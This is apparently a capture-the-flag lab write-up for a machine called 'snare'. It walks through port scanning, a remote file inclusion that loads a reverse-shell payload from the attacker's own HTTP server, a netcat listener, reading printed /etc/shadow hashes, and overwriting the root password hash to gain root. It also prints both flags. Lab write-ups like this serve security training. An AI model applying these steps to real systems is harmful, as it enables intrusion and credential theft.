 # Title : 10.150.150.18



## Enumeration


### port scanning 

```sh

$ nmap -sC -sV 10.150.150.18
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-26 10:02 WAT
Nmap scan report for 10.150.150.18
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:0e:73:d4:ae:73:14:7e:c5:1c:15:84:ef:45:a4:d1 (RSA)
|   256 39:0b:0b:c9:86:c9:8e:b5:2b:0c:39:c7:63:ec:e2:10 (ECDSA)
|_  256 f6:bf:c5:03:5b:df:e5:e1:f4:da:ac:1e:b2:07:88:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Welcome to my homepage!
|_Requested resource was /index.php?page=home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.38 seconds


```


- i test for possible vulnerable on this is endpoint `/index.php?page=` which i found it was vulnerable to RFI

- create the payloade via `https://www.revshells.com/`

- use host it, on my system, using python

```sh

$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.150.150.18 - - [26/Aug/2025 18:25:04] "GET /payload.php HTTP/1.0" 200 -

```

```sh
http://10.150.150.18/index.php?page=http://10.66.67.86/payload

```

- i use netcat to catch my shell

```sh

$ nc -lvnp 9001          
listening on [any] 9001 ...
connect to [10.66.67.86] from (UNKNOWN) [10.150.150.18] 60420
Linux snare 5.4.0-53-generic #59-Ubuntu SMP Wed Oct 21 09:38:44 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:25:04 up  3:51,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                17Dec20 1305days  0.06s  0.04s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

 - i use python to stablizer my shelll

 ```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

 ctrl + z

stty raw -echo && fg

 ```



- i get the first flag

```sh

www-data@snare:/$ cd /home
www-data@snare:/home$ ls
snare
www-data@snare:/home$ cd snare
www-data@snare:/home/snare$ ls
FLAG1.txt
www-data@snare:/home/snare$ cat FLAG1.txt 
e335462da856f39997bffdc04b8d89ce1104fcc5
www-data@snare:/home/snare$ 



```

- to get the root flag we have to do priv escalation

- i manual check if the `/etc/shadow` can be read by my current login user, which i find out it was

```sh

www-data@snare:/home/snare$ cat /etc/shadow
root:$6$b8wkwLbICzuTqPiO$dFLYb8ZNEpfGLRnvODlyGfjtZQTV85FJCDCBGiZEU9b3laym9RJo144xkYEldB419O1Q3E5FARrKRRn/LrtZc0:18586:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18579:0:99999:7:::
systemd-coredump:!!:18579::::::
snare:$6$H64MOvr/bVP1M3TM$ITTpmiB7QNgv7EARjOcIMgeBvbCXlDOU5LqjA7q0ivXWhevk7HbatblgH7Yc1y8aUo0pnASOhJgjWRlGMsusu/:18586:0:99999:7:::
lxd:!:18579::::::
www-data@snare:/home/snare$ ls -lash  /etc/shadow
4.0K -rwxrwxrwx 1 root shadow 1.1K Aug 27 05:42 /etc/shadow


```

- since we know the `/etc/shadow' is writeable 
- we can create a new password on our machine and and use `vi` to edit and paste the new password there

```sh

$ mkpasswd -m sha-512 123456789 
$6$8u5V5k3jXIOxle7E$UbGDHDgz9Av/ocSJKzymlAI/aeU7uYFOsil/toRdmDOawiCbKSkopLpePQ4myCD.Bef5gvsvvrOCAzmqqLc5j/

```
- after creating it paste it in the target machine 

```sh
www-data@snare:/tmp$ su root        
Password: 
root@snare:/tmp# cd /
root@snare:/# ls
bin    dev   lib    libx32      mnt   root  snap      sys  var
boot   etc   lib32  lost+found  opt   run   srv       tmp
cdrom  home  lib64  media       proc  sbin  swap.img  usr
root@snare:/# cd root
root@snare:~# ls
FLAG2.txt  snap
root@snare:~# cat FLAG2.txt 
2b0286a69b276189afe50517304963e5fa5982d9
root@snare:~# ls -lash  /etc/shadow
4.0K -rwxrwxrwx 1 root shadow 1.1K Aug 27 05:42 /etc/shadow
root@snare:~# 

```


